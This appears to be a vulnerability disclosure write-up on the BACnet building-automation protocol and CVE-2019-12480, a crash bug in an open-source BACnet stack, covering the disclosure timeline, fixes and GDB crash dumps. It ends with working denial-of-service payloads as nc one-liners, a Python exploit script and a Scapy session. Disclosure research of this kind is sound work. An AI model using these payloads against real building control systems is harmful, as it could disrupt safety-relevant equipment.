


Is there an increase of interest and focus in Cybersecurity referring to Industrial Control Systems (ICSs), not only PLCs, HMIs, RTUs and sensors, there are other elements like chillers, industrial refrigeration, fire detection, fire suppression, energy storage, HVACs, etc. which can be managed through the BACnet protocol.
Usually are referenced under the term “Intelligent Buildings”, however, their use is neither exclusive to them nor is it something relatively new. The building management is given by the acronym BMS, Building Management System and must be distinguished between residential buildings or industrial buildings. In general, BMS systems integrate a set of subsystems in charge of lighting, fire, alarm, elevator, ventilation, temperature, etc. control systems. Although many of them are common to both environments we cannot say that they are similar since the applications and scope are different.
These systems must communicate with each other for their own operation and management. One of the protocols used is BACnet (Buiding Automation Control Network) a Data Communication Protocol for Building Automation and Control Networks approved by the ASHRAE Standards Committee. In June 1987 the American Society of Heating, Refrigeration and Air-conditioning Engineers (ASHRAE) set up the Standard Project Committee 135 (SPC 135) to develop a data communications protocol for Building, Automation and Control Networks (BACnet). As well as becoming a US national standard in 1995 (ASHRAE/ANSI 135-1995) and then updated in 2001, in many countries it also became an ISO standard 16484-5 in January 2003. BACnet also became a European standard CEN TC 247 in 2003.
BACnet has been designed specifically to meet the communication needs of building automation and control systems for applications such as heating, ventilating, and air-conditioning control, lighting control, access control, and fire detection systems. The BACnet protocol provides mechanisms by which computerized equipment of arbitrary function may exchange information, regardless of the particular building service it performs. As a result, the BACnet protocol may be used by head-end computers, general-purpose direct digital controllers, and application specific or unitary controllers with equal effect.
Like many others, each BACNet device is a combination of hardware and software, like devices working as controllers, gateways or user interfaces. Each of them has a unique identifier or instance number that identifies and differentiates them from those existing in the network apart from others with information regarding the inputs and outputs that these devices monitors and controls.
In BACnet we can find 3 differentiated concepts, Objects, Properties and Services, all the information contained within a BACnet device is ordered as objects, which makes it a protocol oriented precisely to this, to objects. Each “Object” represents a component of the device itself or a set of information that can be requested by another through other protocols or layers such as Ethernet, IP, RS-485, etc. The protocol defines more than 50 types of objects for the most common uses.
BACnet
BACnet was designed to allow communication of building automation and control systems for applications such as heating, ventilating, and air-conditioning control (HVAC), lighting control, access control, and fire detection systems and their associated equipment. The BACnet protocol provides mechanisms for computerized building automation devices to exchange information, regardless of the particular building service they perform.
BACnet is a communications protocol for Building Automation and Control (BAC) networks UDP based and contains 3 main headers the BVLC, NPDU and APDU.
A request to BACnet passes down through the lower layers of the protocol stack in the local device, this process can be observed in the next image Source.
The 3 headers can be examined in the BACnet Wiki
BVLC (BACNet virtual link control): 4 bytes
The firts byte defines the type, in this case bacnet/ip 0x81, the second one defines the function 0x0a, and the last 2 bytes defines the length of the whole packet BACnet Wiki:
- The firts byte defines the type: bacnet/ip 0x81
- The second byte defines the function 0x0a (ORIGINAL_UNICAST_NPDU = 10)
- The last 2 bytes defines the length of the whole packet

- NPDU Function:
As we can see in the BACnet packet the UDP Port number used by BACnet communications over IP is 47808:

NPDU (Network layer protocol data unit): 2 bytes
The NPDU consists of a NPCI followed by a NSDU. BACnet Wiki
According bacnetwiki this is the representation, but be careful here, in practice the headers is just 2 bytes, Version (Always 0x01) and NPCI Control Octet:

NPDU Layer:

APDU (Network layer protocol data unit): 2 bytes
BACnet APDUs carry the Application Layer parameters. The maximum size of an APDU is specified by a device’s Max_APDU_Length_Accepted, be careful with that, otherwise you will face malformed packet issues. BACnet APDU

Testbed
If we want to create our own lab and scenario we can install the OpenSource BACnet Protocol Stack and test the connectivity to BACnet port, we need:
- The Free or Open Source Software BACnet Stack
- A BACNet port open UDP 47808
$ sudo apt-get install -y build-essential
$ sudo apt-get install subversion
$ svn checkout svn://svn.code.sf.net/p/bacnet/code/trunk/bacnet-stack bacnetServer
$ cd bacnetServer
$ make clean all
$ demo/server/bacserv
CVE-2019-12480: BACnet Protocol Stack Segmentation fault leading to denial of service
Disclosure Timeline
- 20/05/2019 Discovered vulnerability and developed baseline proof-of-concept.
- 24/05/2019 Reported to https://sourceforge.net/p/bacnet/bugs/61/
- 28/05/2019 Anonymous reported similar issue to https://sourceforge.net/p/bacnet/bugs/62/
- 29/05/2019 Updated disclosure, sent notes and exploits. Asked for a CVE and coordinated disclosure.
- 19/07/2019 Updated CVE Description CVE-2019-12480.
- 20/08/2019 Public disclosure
Description
BACnet Protocol Stack through 0.8.6 has a segmentation fault leading to denial of service in BACnet APDU Layer because a malformed DCC in AtomicWriteFile, AtomicReadFile and DeviceCommunicationControl services. An unauthenticated remote attacker could cause a denial of service (bacserv daemon crash) because there is an invalid read in bacdcode.c during parsing of alarm tag numbers.
CVE
- Score: 7.5 High
- CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H
- CWE: CWE-125
- cpe:2.3:a:bacnet_protocol_stack_project:bacnet_protocol_stack:::::::: Up to (including) 0.8.6
Bug References and Exploit
- https://sourceforge.net/p/bacnet/bugs/61/
- https://sourceforge.net/p/bacnet/bugs/62/
- https://www.exploit-db.com/exploits/47148
- http://packetstormsecurity.com/files/153716/BACnet-Stack-0.8.6-Denial-Of-Service.html
Fixes
- https://sourceforge.net/p/bacnet/code/3220
- https://sourceforge.net/p/bacnet/code/3223
- https://sourceforge.net/p/bacnet/code/3224
- https://sourceforge.net/p/bacnet/code/3225
Faults analysis
During some fuzzing tests were detected a segmentation fault in the following services:
- Device Communication Control
- Atomic Read File
- Atomic Write File
Fault in Device Communication Control Service
Stack and GDB output for segmentation fault in the Device Communication Control service:
Linux 3.10.0-693.el7.x86_64 #1 SMP Tue Aug 22 21:09:27 UTC 2017 x86_64
Signal si_signo: 11 Signal si_addr: 2154041910
Nearby code:
0x000000000041374e <+19>: mov rdx,rbx
0x0000000000413751 <+22>: xor eax,eax
0x0000000000413753 <+24>: mov rsi,rbp
0x0000000000413756 <+27>: mov edi,0x426a0a
0x000000000041375b <+32>: call 0x401170 <printf@plt>
=> 0x0000000000413760 <+37>: mov al,BYTE PTR [rbp+0x0]
0x0000000000413763 <+40>: mov dl,al
0x0000000000413765 <+42>: and edx,0xfffffff0
0x0000000000413768 <+45>: cmp dl,0xf0
0x000000000041376b <+48>: jne 0x413779 <decode_tag_number+62>
Stack trace:
# 0 decode_tag_number at 0x413760 in /home/fuzz/bacnet-stack-0.9.1/bin/bacserv
# 1 decode_is_context_tag at 0x413974 in /home/fuzz/bacnet-stack-0.9.1/bin/bacserv
# 2 dcc_decode_service_request at 0x418428 in /home/fuzz/bacnet-stack-0.9.1/bin/bacserv
# 3 handler_device_communication_control at 0x41e079 in /home/fuzz/bacnet-stack-0.9.1/bin/bacserv
# 4 apdu_handler at 0x4134f7 in /home/fuzz/bacnet-stack-0.9.1/bin/bacserv
# 5 npdu_handler at 0x41c508 in /home/fuzz/bacnet-stack-0.9.1/bin/bacserv
# 6 main at 0x40169a in /home/fuzz/bacnet-stack-0.9.1/bin/bacserv
Faulting frame: # 0 decode_tag_number at 0x413760 in /home/fuzz/bacnet-stack-0.9.1/bin/bacserv
Description: Access violation on source operand
Short description: SourceAv (19/22)
Hash: 0c6889881a5d7caa77aa0dbc2027317f.b3c82754609555d1d0273757f67cf6ca
Exploitability Classification: UNKNOWN
Explanation: The target crashed on an access violation at an address matching the source operand of the current instruction. This likely indicates a read access violation.
Other tags: AccessViolation (21/22)
--- Info Frame ---
Stack level 0, frame at 0x7fffffffdc50:
rip = 0x413760 in decode_tag_number; saved rip 0x413974
called by frame at 0x7fffffffdc80
Arglist at 0x7fffffffdc30, args:
Locals at 0x7fffffffdc30, Previous frame's sp is 0x7fffffffdc50
Saved registers:
rbx at 0x7fffffffdc38, rbp at 0x7fffffffdc40, rip at 0x7fffffffdc48
--- Info Registers ---
rax 0x12 18
rbx 0x7fffffffdc5f 140737488346207
rcx 0x11 17
rdx 0x0 0
rsi 0x0 0
rdi 0x7fffffffd700 140737488344832
rbp 0x80641236 0x80641236
rsp 0x7fffffffdc30 0x7fffffffdc30
r8 0x1 1
r9 0x7ffff7a5b14d 140737348219213
r10 0x65626d756e5f6761 7305521896678713185
r11 0x0 0
r12 0x7fffffffdd08 140737488346376
r13 0xc 12
r14 0x7fffffffdce0 140737488346336
r15 0x80641236 2154041910
rip 0x413760 0x413760 <decode_tag_number+37>
eflags 0x10206 [ PF IF RF ]
cs 0x33 51
ss 0x2b 43
ds 0x0 0
es 0x0 0
fs 0x0 0
gs 0x0 0
--- Backtrace ---
Thread 1 (Thread 0x7ffff7fe2740 (LWP 21011)):
#0 0x0000000000413760 in decode_tag_number ()
No symbol table info available.
#1 0x0000000000413974 in decode_is_context_tag ()
No symbol table info available.
#2 0x0000000000418428 in dcc_decode_service_request ()
No symbol table info available.
#3 0x000000000041e079 in handler_device_communication_control ()
No symbol table info available.
#4 0x00000000004134f7 in apdu_handler ()
No symbol table info available.
#5 0x000000000041c508 in npdu_handler ()
No symbol table info available.
#6 0x000000000040169a in main ()
No symbol table info available.
Fault in Atomic Read File Service
Stack and GDB output for segmentation fault in the Atomic Read File service:
Linux 3.10.0-693.el7.x86_64 #1 SMP Tue Aug 22 21:09:27 UTC 2017 x86_64
Signal si_signo: 11 Signal si_addr: 18446744073168944418
Nearby code:
0x000000000041374e <+19>: mov rdx,rbx
0x0000000000413751 <+22>: xor eax,eax
0x0000000000413753 <+24>: mov rsi,rbp
0x0000000000413756 <+27>: mov edi,0x426a0a
0x000000000041375b <+32>: call 0x401170 <printf@plt>
=> 0x0000000000413760 <+37>: mov al,BYTE PTR [rbp+0x0]
0x0000000000413763 <+40>: mov dl,al
0x0000000000413765 <+42>: and edx,0xfffffff0
0x0000000000413768 <+45>: cmp dl,0xf0
0x000000000041376b <+48>: jne 0x413779 <decode_tag_number+62>
Stack trace:
# 0 decode_tag_number at 0x413760 in /home/fuzz/bacnet-stack-0.9.1/bin/bacserv
# 1 decode_tag_number_and_value at 0x4137f9 in /home/fuzz/bacnet-stack-0.9.1/bin/bacserv
# 2 arf_decode_service_request at 0x417df8 in /home/fuzz/bacnet-stack-0.9.1/bin/bacserv
# 3 handler_atomic_read_file at 0x41d9ab in /home/fuzz/bacnet-stack-0.9.1/bin/bacserv
# 4 apdu_handler at 0x4134f7 in /home/fuzz/bacnet-stack-0.9.1/bin/bacserv
# 5 npdu_handler at 0x41c508 in /home/fuzz/bacnet-stack-0.9.1/bin/bacserv
# 6 main at 0x40169a in /home/fuzz/bacnet-stack-0.9.1/bin/bacserv
Faulting frame: # 0 decode_tag_number at 0x413760 in /home/fuzz/bacnet-stack-0.9.1/bin/bacserv
Description: Access violation on source operand
Short description: SourceAv (19/22)
Hash: 39996a2c279b3763d9d7c9d644e36915.5dfb5ba5080de8d79c6b66b3f106b103
Exploitability Classification: UNKNOWN
Explanation: The target crashed on an access violation at an address matching the source operand of the current instruction. This likely indicates a read access violation.
Other tags: AccessViolation (21/22)
--- Info Frame ---
Stack level 0, frame at 0x7fffffffdc50:
rip = 0x413760 in decode_tag_number; saved rip 0x4137f9
called by frame at 0x7fffffffdc80
Arglist at 0x7fffffffdc30, args:
Locals at 0x7fffffffdc30, Previous frame's sp is 0x7fffffffdc50
Saved registers:
rbx at 0x7fffffffdc38, rbp at 0x7fffffffdc40, rip at 0x7fffffffdc48
--- Info Registers ---
rax 0x11 17
rbx 0x7fffffffdc89 140737488346249
rcx 0x10 16
rdx 0x0 0
rsi 0x0 0
rdi 0x7fffffffd700 140737488344832
rbp 0xffffffffdfc6fd22 0xffffffffdfc6fd22
rsp 0x7fffffffdc30 0x7fffffffdc30
r8 0x1 1
r9 0x7ffff7a5b14d 140737348219213
r10 0x65626d756e5f6761 7305521896678713185
r11 0x0 0
r12 0xffffffffdfc6fd22 -540607198
r13 0x640f1b 6557467
r14 0x640f16 6557462
r15 0x11 17
rip 0x413760 0x413760 <decode_tag_number+37>
eflags 0x10206 [ PF IF RF ]
cs 0x33 51
ss 0x2b 43
ds 0x0 0
es 0x0 0
fs 0x0 0
gs 0x0 0
--- Backtrace ---
Thread 1 (Thread 0x7ffff7fe2740 (LWP 20992)):
#0 0x0000000000413760 in decode_tag_number ()
No symbol table info available.
#1 0x00000000004137f9 in decode_tag_number_and_value ()
No symbol table info available.
#2 0x0000000000417df8 in arf_decode_service_request ()
No symbol table info available.
#3 0x000000000041d9ab in handler_atomic_read_file ()
No symbol table info available.
#4 0x00000000004134f7 in apdu_handler ()
No symbol table info available.
#5 0x000000000041c508 in npdu_handler ()
No symbol table info available.
#6 0x000000000040169a in main ()
No symbol table info available.
Fault in Atomic Write File Service
Stack and GDB output for segmentation fault in the Atomic Write File service:
Linux 3.10.0-693.el7.x86_64 #1 SMP Tue Aug 22 21:09:27 UTC 2017 x86_64
Signal si_signo: 11 Signal si_addr: 18446744072714559995
Nearby code:
0x000000000041374e <+19>: mov rdx,rbx
0x0000000000413751 <+22>: xor eax,eax
0x0000000000413753 <+24>: mov rsi,rbp
0x0000000000413756 <+27>: mov edi,0x426a0a
0x000000000041375b <+32>: call 0x401170 <printf@plt>
=> 0x0000000000413760 <+37>: mov al,BYTE PTR [rbp+0x0]
0x0000000000413763 <+40>: mov dl,al
0x0000000000413765 <+42>: and edx,0xfffffff0
0x0000000000413768 <+45>: cmp dl,0xf0
0x000000000041376b <+48>: jne 0x413779 <decode_tag_number+62>
Stack trace:
# 0 decode_tag_number at 0x413760 in /home/fuzz/bacnet-stack-0.9.1/bin/bacserv
# 1 decode_tag_number_and_value at 0x4137f9 in /home/fuzz/bacnet-stack-0.9.1/bin/bacserv
# 2 awf_decode_service_request at 0x42062b in /home/fuzz/bacnet-stack-0.9.1/bin/bacserv
# 3 handler_atomic_write_file at 0x41dc13 in /home/fuzz/bacnet-stack-0.9.1/bin/bacserv
# 4 apdu_handler at 0x4134f7 in /home/fuzz/bacnet-stack-0.9.1/bin/bacserv
# 5 npdu_handler at 0x41c508 in /home/fuzz/bacnet-stack-0.9.1/bin/bacserv
# 6 main at 0x40169a in /home/fuzz/bacnet-stack-0.9.1/bin/bacserv
Faulting frame: # 0 decode_tag_number at 0x413760 in /home/fuzz/bacnet-stack-0.9.1/bin/bacserv
Description: Access violation on source operand
Short description: SourceAv (19/22)
Hash: 30f5f3fdb0db788098ed886be3d45933.f25bdc8062c3fd1d5fec8cfd4c618d89
Exploitability Classification: UNKNOWN
Explanation: The target crashed on an access violation at an address matching the source operand of the current instruction. This likely indicates a read access violation.
Other tags: AccessViolation (21/22)
--- Info Frame ---
Stack level 0, frame at 0x7fffffffdc50:
rip = 0x413760 in decode_tag_number; saved rip 0x4137f9
called by frame at 0x7fffffffdc80
Arglist at 0x7fffffffdc30, args:
Locals at 0x7fffffffdc30, Previous frame's sp is 0x7fffffffdc50
Saved registers:
rbx at 0x7fffffffdc38, rbp at 0x7fffffffdc40, rip at 0x7fffffffdc48
--- Info Registers ---
rax 0x11 17
rbx 0x7fffffffdc81 140737488346241
rcx 0x10 16
rdx 0x0 0
rsi 0x0 0
rdi 0x7fffffffd700 140737488344832
rbp 0xffffffffc4b1a1fb 0xffffffffc4b1a1fb
rsp 0x7fffffffdc30 0x7fffffffdc30
r8 0x1 1
r9 0x7ffff7a5b14d 140737348219213
r10 0x65626d756e5f6761 7305521896678713185
r11 0x0 0
r12 0xffffffffc4b1a1fb -994991621
r13 0x640f1b 6557467
r14 0x640f16 6557462
r15 0x21 33
rip 0x413760 0x413760 <decode_tag_number+37>
eflags 0x10206 [ PF IF RF ]
cs 0x33 51
ss 0x2b 43
ds 0x0 0
es 0x0 0
fs 0x0 0
gs 0x0 0
--- Backtrace ---
Thread 1 (Thread 0x7ffff7fe2740 (LWP 20726)):
#0 0x0000000000413760 in decode_tag_number ()
No symbol table info available.
#1 0x00000000004137f9 in decode_tag_number_and_value ()
No symbol table info available.
#2 0x000000000042062b in awf_decode_service_request ()
No symbol table info available.
#3 0x000000000041dc13 in handler_atomic_write_file ()
No symbol table info available.
#4 0x00000000004134f7 in apdu_handler ()
No symbol table info available.
#5 0x000000000041c508 in npdu_handler ()
No symbol table info available.
#6 0x000000000040169a in main ()
No symbol table info available.
Exploits
Based on previous information were developed some exploits as Proof of concept.
Bash
Device Communication Control payload:
echo -ne '\x81\x0a\x00\x16\x01\x04\x00\x05\x01\x11\x0d\xff\x80\x00\x03\x1a\x0a\x19\x00\x2a\x00\x41' | nc -u 192.168.10.10 47808
Atomic Read File service payload:
echo -ne '\x81\x0a\x00\x1b\x01\x14\x00\x05\x01\x06\xc4\x02\x80\x00\x00\x0e\x35\xff\xdf\x62\xee\x00\x00\x22\x05\x84\x0f' | nc -u 192.168.10.10 47808
Atomic Write File service payload:
echo -ne '\x81\x0a\x00\x1b\x01\x04\x00\x05\x02\x07\xc4\x02\x80\x00\x00\x0e\x35\xff\x5e\xd5\xc0\x85\x0a\x62\x64\x0a\x0f' | nc -u 192.168.10.10 47808
Python
Using the output generated by the fuzzer and gdb could be possible to generate some POC exploits:
https://www.exploit-db.com/exploits/47148
# Exploit Title: BACnet Stack 0.8.6 - Denial of Service
# Exploit Author: mmorillo
# Vendor Homepage: https://sourceforge.net/p/bacnet/
# Software Link: https://sourceforge.net/projects/bacnet/files/bacnet-stack/bacnet-stack-0.8.6/
# Version: bacnet-stack-0.8.6
# Tested on: Linux
# CVE: CVE-2019-12480
#!/usr/bin/env python
#
# After reported the bug to the vendor, sharing details
# about the vulnerability, as well as proof-of-concept code (exploit code to
# test), has been release a fix for 0.8.7 release of
# BACnet Protocol Stack https://sourceforge.net/p/bacnet/
import socket
import struct
import argparse
import os
import sys
from termcolor import colored
#------------------------------------------------------------------------------
# Command line parser using argparse
#------------------------------------------------------------------------------
def cmdline_parser():
parser = argparse.ArgumentParser(conflict_handler='resolve', add_help=True,
description='BACnet Protocol Stack Segmentation fault leading to denial of service', version='0.1',
usage="python %(prog)s")
# Mandatory
parser.add_argument('Server', type=str, help='BACnet server IP')
parser.add_argument('Port', type=str, help='BACnet port')
return parser
def get_Host_name_IP():
try:
host_name = socket.gethostname()
host_ip = socket.gethostbyname(host_name)
return host_ip
except:
print("Unable to get Hostname and IP")
def target_alive(BACnetServer, BACnetPort):
response = os.system("nc -u -z -w 1 " + BACnetServer + " " + str(BACnetPort))
if response == 0:
return True
else:
return False
#------------------------------------------------------------------------------
# Main of program
#------------------------------------------------------------------------------
def main():
# Get the command line parser.
parser = cmdline_parser()
# Show help if no args
if len(sys.argv) == 1:
parser.print_help()
sys.exit(1)
# Get results line parser.
results = parser.parse_args()
BACnetServer = results.Server
BACnetPort = int(results.Port)
SRC_IP = get_Host_name_IP()
if not target_alive(BACnetServer, BACnetPort):
print((colored("[+] BACnet server down", "yellow")))
else:
if target_alive(BACnetServer, BACnetPort):
payload_DeviceCommunicationControl = "\x81\x0a\x00\x16\x01\x04\x00\x05\x01\x11\x0d\xff\x80\x00\x03\x1a\x0a\x19\x00\x2a\x00\x41"
print((colored("[+] Sending BACnet DeviceCommunicationControl payload from " + SRC_IP, "green")))
s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM) # UDP
s.connect((BACnetServer, BACnetPort))
s.send(struct.pack('>I',len(payload_DeviceCommunicationControl)))
s.send(payload_DeviceCommunicationControl)
print((colored("[+] Sent Payload: " + payload_DeviceCommunicationControl.encode('hex') + ' to BACnet server ' + BACnetServer + ' port ' + str(BACnetPort), "yellow")))
if target_alive(BACnetServer, BACnetPort):
payload_AtomicReadFile = "\x81\x0a\x00\x1b\x01\x14\x00\x05\x01\x06\xc4\x02\x80\x00\x00\x0e\x35\xff\xdf\x62\xee\x00\x00\x22\x05\x84\x0f"
print((colored("[+] Sending BACnet AtomicReadFile payload from " + SRC_IP, "green")))
s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM) # UDP
s.connect((BACnetServer, BACnetPort))
s.send(struct.pack('>I',len(payload_AtomicReadFile)))
s.send(payload_AtomicReadFile)
print((colored("[+] Sent Payload: " + payload_AtomicReadFile.encode('hex') + ' to BACnet server ' + BACnetServer + ' port ' + str(BACnetPort), "yellow")))
if target_alive(BACnetServer, BACnetPort):
payload_AtomicWriteFile = "\x81\x0a\x00\x1b\x01\x04\x00\x05\x02\x07\xc4\x02\x80\x00\x00\x0e\x35\xff\x5e\xd5\xc0\x85\x0a\x62\x64\x0a\x0f"
print((colored("[+] Sending BACnet AtomicWriteFile payload from " + SRC_IP, "green")))
s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM) # UDP
s.connect((BACnetServer, BACnetPort))
s.send(struct.pack('>I',len(payload_AtomicWriteFile)))
s.send(payload_AtomicWriteFile)
print((colored("[+] Sent Payload: " + payload_AtomicWriteFile.encode('hex') + ' to BACnet server ' + BACnetServer + ' port ' + str(BACnetPort), "yellow")))
if not target_alive(BACnetServer, BACnetPort):
print((colored("[+] DoS completed", "red")))
#------------------------------------------------------------------------------
# Main
#------------------------------------------------------------------------------
if __name__ == '__main__':
main()
Scapy
Using the partially implemented BACnet layer for Scapy can be generated the BLVC, NPDU and APDU layers in order to send the specific exploit octets. For example:
$ python
Python 2.7.16 (default, Apr 1 2019, 14:50:41)
[GCC 4.2.1 Compatible Apple LLVM 10.0.1 (clang-1001.0.46.3)] on darwin
Type "help", "copyright", "credits" or "license" for more information.
>>> from bacnet import BvlcFunction, BVLC, BACNET_PORT, NPDU, NetworkLayerMessageType, hexStringToIntList, APDU, PduType, UnconfirmedServiceChoice
>>> from scapy.layers.inet import IP, UDP
>>> from scapy.all import *
>>> DST_IP = '192.168.10.10'
>>> SRC_PORT = 63491
>>> BACNET_PORT = 47808
>>>
>>>
>>> udp = IP(dst=DST_IP) / UDP(sport=SRC_PORT, dport=BACNET_PORT)
>>>
>>> bvlc = udp / BVLC(function=BvlcFunction.ORIGINAL_UNICAST_NPDU)
>>>
>>> npdu = bvlc / NPDU(nlpci=0b00000100)
>>>
>>> apdu = npdu / APDU(pdu_type=PduType.CONFIRMED_REQUEST,service_choice=UnconfirmedServiceChoice.DEVICECOMMUNICATIONCONTROL) / Raw("\x0d\xff\x80\x00\x03\x1a\x0a\x19\x00\x2a\x00\x41")
>>>
>>> apdu.display()
###[ IP ]###
version = 4
ihl = None
tos = 0x0
len = None
id = 1
flags =
frag = 0
ttl = 64
proto = udp
chksum = None
src = 192.168.10.5
dst = 192.168.10.10
\options \
###[ UDP ]###
sport = 63491
dport = bacnet
len = None
chksum = None
###[ BVLC ]###
type = 0x81
function = ORIGINAL_UNICAST_NPDU
length = None
###[ NPDU ]###
version = 1
nlpci = 4
###[ APDU ]###
pdu_type = CONFIRMED_REQUEST
reserved = 0
max_response_segments= 0x5
invoke_id = 0x1
service_choice= DEVICECOMMUNICATIONCONTROL
###[ Raw ]###
load = '\r\xff\x80\x00\x03\x1a\n\x19\x00*\x00A'
>>> send(apdu)
.
Sent 1 packets.
Segmentation Fault
$ ./bacserv
BACnet Server Demo
BACnet Stack Version 0.8.6
BACnet Device ID: 260001
Max APDU: 1476
DeviceCommunicationControl!
Violación de segmento (`core' generado)
References
- 135_2004
- BACnet Wiki
- The Free or Open Source Software BACnet Stack
- BACnet Protocol Stack
- NVD CVE-2019-12480 Details
- https://sourceforge.net/p/bacnet/bugs/61/
- https://sourceforge.net/p/bacnet/bugs/62/
- https://www.exploit-db.com/exploits/47148
- http://packetstormsecurity.com/files/153716/BACnet-Stack-0.8.6-Denial-Of-Service.html
- https://sourceforge.net/p/bacnet/code/3220
- https://sourceforge.net/p/bacnet/code/3223
- https://sourceforge.net/p/bacnet/code/3224
- https://sourceforge.net/p/bacnet/code/3225
- BACnet ashrae
- BACnet rhyshaden resources